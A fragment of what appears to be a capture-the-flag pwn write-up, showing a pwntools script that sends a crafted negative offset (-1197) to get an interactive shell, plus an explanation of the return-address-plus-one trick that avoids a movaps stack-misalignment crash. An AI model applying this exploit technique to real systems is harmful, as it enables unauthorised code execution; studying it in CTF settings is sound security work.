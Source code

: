 ```python

sla("> ", "1")
sla(": ", "1"+"2222")
sla(": ", "-1197") # 0x4ae-1


p.interactive()
```

### Why not -1198(0x4ae)?
If we use -1198, we receive SIGSEGV error here:
```bash
=> 0x7fc1dae94693 <buffered_vfprintf+115>:      movaps XMMWORD PTR [rsp+0x40],xmm0
```
This is caused by misalignment of stack, so by shifting the return address by one (this is the little trick!), i.e. change the offset from -1198 to -1197, the new return address will be *print+5 and the exploit will work smoothly.

Thank you,

079
